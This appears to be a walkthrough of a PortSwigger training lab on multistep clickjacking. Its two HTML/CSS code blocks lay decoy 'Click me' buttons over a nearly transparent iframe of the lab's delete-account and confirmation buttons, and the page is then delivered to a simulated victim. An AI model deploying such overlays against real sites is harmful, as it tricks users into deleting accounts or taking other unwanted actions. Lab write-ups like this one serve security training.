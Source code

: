 

### Lab: [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)


	Description: This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
	You can log in to the account yourself using the following credentials: `wiener:peter`


**Step 1**:  Open the web application and observe function delete account
When i'm trying to delete account, the application will ask again if you want to delete the acccount
![](../../Img_note/Pasted%20image%2020221215184650.png)

![](../../Img_note/Pasted%20image%2020221215184705.png)

**Step 2**: Locate to clickjacking
We need to make clickjacking with 2 click, one click at button ==Delete account==, one click at button ==Yes== after click ==Delete account

We use iframe to embed the vuln web aplication to malicious web. Create two button is ==Click me first== and ==Click me second== according to the given request. Set the opacity to 0.1 so we can easily align the position of the button.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:300px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```

Add the above code to the exploit server, click ==Store==, ==View Exploit== to see the result

![](../../Img_note/Pasted%20image%2020221215185820.png)

**Step 3**:  Align the position of the button

I will fix value:
heigth: 550px, 
top of firstClick to 500px,
opacity to 0.001

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 550px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```

Click ==Store== to change the script, ==View Exploit== to check again, if everything looks ok, click ==Deliver to victim== and we will get this result

![](../../Img_note/Pasted%20image%2020221215190436.png)


